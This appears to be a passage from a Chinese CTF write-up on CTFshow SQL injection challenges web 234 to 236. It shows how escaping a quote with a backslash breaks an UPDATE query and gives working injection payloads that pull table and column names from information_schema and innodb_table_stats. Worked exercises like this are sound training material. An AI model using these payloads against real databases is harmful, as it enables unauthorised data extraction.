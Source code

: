 ## web 234 反斜杠转义

相比于上题，这题`'`单引号被过滤了，看了师傅[反斜杠转义](https://boogipop.com/2023/03/02/CTFSHOW-SQL%E6%B3%A8%E5%85%A5/#Web234%EF%BC%88\%E8%BD%AC%E4%B9%89)。现在不能主动用单引号闭合了，如果使用反斜杠转义原有的单引号，有更好玩的姿势

```php
# 原始语句
$sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
# 反斜杠转义后
$sql = "update ctfshow_user set pass = '\' where username = '{$username}';";
```

反斜杠转义后，出现`pass='\' where username ='{$username}';`，变量pass=`where username =`，原有的where语句被pass变量吞掉了，变量username出来了

这个sql语句可以看成

```php
$sql = update ctfshow_user set pass = 'where username = '{$username}';
```

现在可以看到{$username}前面的单引号跟pass的单引号闭合了，后面还多出一个单引号，需要注释掉，不然语句就是错的。
子查询放括号里


```sql
username=,username=(select group_concat(table_name) from information_schema.tables where table_schema=database())#&password=\
```

用这个思路，接着爆库表数据

## web 235

题目过滤了`or`,`'`，子查询里的information用不了了，在mysql中其他类似作用库如`innodb_table_stats`，作用和`information_schema.tables`类似。可以查出库名，表名

![info](https://the0n3.top/medias/show-sql/info.png)

```sql
username=,username=(select group_concat(table_name) from mysql.innodb_table_stats where database_name=database())#&password=2\
```

通过子查询套出表中字段

```sql
select group_concat(c) from (select 1,2 as c,3 union select * from flag23a1)d
```

这句子查询sql中，最后多出一个字母d，因为sql要求子查询派生表也要有表名，最后那个就是表名，可以随便起

## web 236

题目提示过滤了`flag`，但是用上一题做法还是能做出了(没有过滤？)


## web 237  insert
